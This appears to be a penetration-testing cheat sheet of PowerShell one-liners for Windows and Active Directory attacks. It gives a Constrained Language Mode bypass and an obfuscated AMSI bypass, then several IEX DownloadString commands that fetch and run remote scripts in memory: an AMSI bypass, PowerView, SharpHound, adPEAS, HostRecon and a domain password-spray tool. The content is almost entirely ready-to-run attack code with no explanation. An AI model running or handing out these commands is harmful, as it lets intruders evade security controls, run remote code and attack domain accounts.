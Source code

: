 ### Bypasses
------------
##### Powershell CLM Bypass:
~~~
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"
Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe  -ExecutionPolicy bypass"
sleep 5
#Set it back
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
~~~

##### Powershell Obfuscated AMSI Bypass:
~~~
$w='System.Management.Automation.A';$c='si';$m='Utils'
$assembly=[Ref].Assembly.GetType(('{0}m{1}{2}'-f$w,$c,$m))
$field=$assembly.GetField(('am{0}InitFailed'-f$c),'NonPublic,Static')
$field.SetValue($null,$true)
~~~

##### Powershell Modified AMSI .Net Bypass script - In Memory
~~~
IEX (New-Object Net.Webclient).DownloadString('https://gist.githubusercontent.com/shantanu561993/6483e524dc225a188de04465c8512909/raw/db219421ea911b820e9a484754f03a26fbfb9c27/AMSI_bypass_Reflection.ps1')
~~~

### Scripts - In Memory
-----------------------
#### Host Recon
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/dafthack/HostRecon/master/HostRecon.ps1');
Invoke-HostRecon
~~~

#### ConvertTo-PowerShell
~~~
IEX (New-Object Net.Webclient).DownloadString('https://github.com/cfalta/PowerShellArmoury/raw/2d9bea5e1c10353186fe75ebc28c5e596247dca3/utilities/ConvertTo-Powershell.ps1');
~~~

##### Powerview
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
~~~

##### Spray
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/HeeresS/DomainPasswordSpray/master/DomainPasswordSpray.ps1'); Invoke-DomainPasswordSpray -Domain <domain> -Password password
~~~
##### Sharphound
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1'); Invoke-BloodHound -Domain <domain> -CollectionMethod All
~~~
##### Safe SSL/TLS-Channel
~~~
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Ssl3 -bor [
Net.SecurityProtocolType]::Ssl2 -bor [Net.SecurityProtocolType]::Tls -bor [Net.SecurityProtocolType]::Tls11 -bor [Net.Se
curityProtocolType]::Tls12
~~~
##### BloodHound collector (ADpeas)
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/6110
6960/adPEAS/main/adPEAS.ps1'); Invoke-adPEAS -Module Bloodhound -Scope All
~~~
